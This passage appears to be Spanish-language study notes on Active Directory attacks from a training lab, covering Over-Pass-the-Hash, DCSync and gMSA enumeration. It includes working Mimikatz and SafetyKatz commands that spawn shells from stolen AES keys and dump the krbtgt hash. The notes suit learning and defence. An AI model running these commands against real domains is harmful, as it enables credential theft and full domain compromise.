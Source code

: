 OPTH genera un nuevo proceso con las credenciales especificadas, hashes NTLM o claves AES

```
### Over Pass the hash (OPTH) genera tokens a partir de hashes o claves(Ejecutar como administrador)

Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

### Los comandos anteriores inician una sesión PowerShell con un tipo de inicio de sesión 9 (igual que runas /netonly).
```
## DCSync

- DCSync Attack aprovecha la función de replicación (asociado al servicio de replicación) para extraer credenciales de datos específicos, usarios o todos los usuarios.
- ¿Por qué se usan los servicios de replicación? Porque si hay varios controladores de dominio en el entorno para mantener a todos y a cada uno de los controladores de dominio con todas las modificaciones que ocurren en cualquiera de los controladores de dominio, se utiliza un servicio de replicación y nosotros podemos usar ese servicio para solicitar credenciales para usuarios.
- De forma predeterminada se requeriran privilegios de administrador de dominio pero hay ciertos accesos, ACLs, que proporcionan privilegios para realizar DCSync.

```
• To extract credentials from the DC without code execution on it, we can use DCSync.

• To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

• By default, Domain Admins privileges are required to run DCSync
```
## gMSA

- Una cuenta de servicio gestionada por grupo (gMSA) que proporciona gestión automática de contraseñas, gestión de SPN y administración delegada para cuentas de servicio en varios servidores.
- Se recomienda el uso de gMSA para protegerse de ataques del tipo Kerberoast.
- Se genera una contraseña aleatoria de 256 bytes que se rota cada 30 días.
- Cuando un usuario autorizado lee el atributo '``msds ManagedPassword``' se calcula la contraseña gMSA.
- Sólo los administradores especificados explícitamente pueden leer el blob de contraseñas. Incluso los Administradores de Dominio no pueden leerlo por defecto.
### Enumeration

- Un gMSA tiene la clase de objeto '``msDS-GroupManagedServiceAccount``'. Esto puede para encontrar las cuentas.

```
### Usando ADModule
Get-ADServiceAccount -Filter *

### Usando PowerView
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```
### Explotación

